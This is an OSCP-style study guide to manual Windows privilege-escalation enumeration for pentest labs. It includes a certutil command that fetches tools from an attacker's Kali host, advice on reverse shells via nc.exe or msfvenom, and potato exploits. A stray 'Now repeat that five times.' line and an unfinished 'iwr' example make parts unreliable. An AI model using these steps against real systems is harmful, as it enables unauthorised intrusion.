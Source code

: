 # Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick it up.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr 
```


## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

3) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```